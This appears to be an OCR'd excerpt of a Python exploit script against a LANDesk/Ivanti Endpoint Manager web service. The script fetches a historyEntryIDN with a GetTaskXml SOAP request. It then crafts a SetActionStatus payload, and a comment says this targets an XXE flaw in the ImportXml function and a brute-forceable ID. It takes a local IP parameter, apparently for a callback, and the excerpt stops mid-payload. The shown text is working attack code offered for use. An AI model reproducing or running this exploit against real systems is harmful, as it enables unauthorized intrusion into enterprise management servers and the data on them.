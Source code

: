 ```python
  log("Attempting to retrieve historyEntryIDN via getTasksXml", "log")
  headers = {
      "Content-Type": "text/xml; charset=utf-8",
      "Soapaction": '"http://tempuri.org/GetTaskXml"'
  }
  soap_request = '''<?xml version="1.0" encoding="utf-8"?>
    <soap:Envelope xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xmlns:xsd="http://www.w3.org/2001/XMLSchema" xmlns:soap="http://schemas.xmlsoap.org/soap/envelope/">
      <soap:Body>
        <GetTaskXml xmlns="http://tempuri.org/">
          <sids>
            <ServerIdentifier>
              <sit>Test</sit>
              <sIdentifier>string</sIdentifier>
            </ServerIdentifier>
            <ServerIdentifier>
              <sit>Test</sit>
              <sIdentifier>string</sIdentifier>
            </ServerIdentifier>
          </sids>
        </GetTaskXml>
      </soap:Body>
    </soap:Envelope>'''

  response = requests.post("{}/LANDesk/ManagementSuite/Core/ProvisioningWebService/WebService.asmx".format(target_url), data=soap_request, headers=headers, verify=False)
  root = ET.fromstring(response.text)
  namespace = {'ns': 'http://tempuri.org/'}
  result = root.find('.//ns:GetTaskXmlResult', namespace)
  if result is not None:
    return result.text
  else:
      log("GetTaskXmlResult not found", "error")
      exit(1)

# SOAP Request for invoking SetActionStatus, a valid historyEntryIDN is required for certain checks to be 
# fulfilled but I believe it can be bruteforced to work. Additionally, the actionXml content are being passed to the
# ImportXml function which was found to be vulnerable to XXE as XmlUrlXmlResolver wasn't set to null explicitly.

def send_soap_request(target_url, local_ip):
  historyEntryIDN = getTasksXml(target_url)
  log("Retrieved historyEntryIDN {}".format(historyEntryIDN), "success")
  log("Crafting SOAP Request to invole SetActionStatus", "log")
  soap_payload = '''<?xml version="1.0" encoding="utf-8"?>
  <soap:Envelope xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xmlns:xsd="http://www.w3.org/2001/XMLSchema" xmlns:soap="http://schemas.xmlsoap.org/soap/envelope/">
    <soap:Body>
      <SetActionStatus xmlns="http://tempuri.org/">
        <historyTaskIDN>100</historyTaskIDN>
        <historyEntryIDN>{}</historyEntryIDN>
        <nextHistoryEntryIDN>0</nextHistoryEntryIDN>
        <actionState>NEED_REBOOT</actionState>
        <internalRetval>1</internalRetval>
        <externalRetval>1</externalRetval>
        <strCapturedText>string</strCapturedText>
        <Variables>
          <UserVariable>
            <Name>string</Name>
            <Value>string</Value>
            <VariableOperation>add</VariableOperation>
```